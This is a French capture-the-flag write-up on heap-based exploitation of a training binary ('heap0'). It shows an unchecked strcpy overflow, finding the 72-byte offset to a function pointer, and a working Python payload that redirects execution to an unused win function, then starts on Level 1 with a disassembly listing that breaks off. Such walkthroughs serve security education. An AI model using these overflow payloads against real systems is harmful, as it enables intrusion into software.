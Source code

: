 Il s'agit donc d'un pointeur de fonction qui est appellé à la fin du code, après le `strcpy()`. Ce `strcpy()` est vulnérable puisqu'il copie le première paramètre passé au binaire via la ligne de commande vers la zone de 64 octets, le tout sans aucune vérification.

Il est donc possible d'écraser les données qui sont plus loin et donc le pointeur de fonction. Dans le code se trouve aussi une fonction `win` non utilisée qu'il faut bien sûr faire en sorte d'appeller.

```shellsession
$ ./heap0 yolo
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```

Il semble qu'il y ait 72 octets entre notre buffer de données et le pointeur de fonction. On peut le vérifier :

```shellsession
$ ./heap0 `python -c 'print "A"*72 + "BBBB"'`
data is at 0x804a008, fp is at 0x804a050
Segmentation fault
$ dmesg | tail -1
[263220.472338] heap0[6640]: segfault at 42424242 ip 42424242 sp bffffc8c error 4
```

Plus qu'à écraser ce pointeur par l'adresse de `win` :

```shellsession
$ ./heap0 `python -c 'import struct; print "A"*72 + struct.pack("<I", 0x08048464)'`
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Level 1

Pour ce level toute la logique se trouve dans la fonction `main()` :

```nasm
int main (int argc, char **argv, char **envp);
; arg char **envp @ ebp+0xc
; var const char *src @ esp+0x4
; var void **var_14h @ esp+0x14
; var void **var_18h @ esp+0x18
0x080484b9      push ebp
0x080484ba      mov ebp, esp
0x080484bc      and esp, 0xfffffff0
0x080484bf      sub esp, 0x20
0x080484c2      mov dword [esp], 8 ; size_t size
0x080484c9      call malloc        ; sym.imp.malloc ; void *malloc(size_t size)
0x080484ce      mov dword [var_14h], eax
0x080484d2      mov eax, dword [var_14h]
0x080484d6      mov dword [eax], 1
0x080484dc      mov dword [esp], 8 ; size_t size
0x080484e3      call malloc        ; sym.imp.malloc ; void *malloc(size_t size)
0x080484e8      mov edx, eax
0x080484ea      mov eax, dword [var_14h]
0x080484ee      mov dword [eax + 4], edx
0x080484f1      mov dword [esp], 8 ; size_t size
0x080484f8      call malloc        ; sym.imp.malloc ; void *malloc(size_t size)
0x080484fd      mov dword [var_18h], eax
0x08048501      mov eax, dword [var_18h]
0x08048505      mov dword [eax], 2
0x0804850b      mov dword [esp], 8 ; size_t size
0x08048512      call malloc        ; sym.imp.malloc ; void *malloc(size_t size)
0x08048517      mov edx, eax
0x08048519      mov eax, dword [var_18h]
0x0804851d      mov dword [eax + 4], edx
0x08048520      mov eax, dword [envp]
```
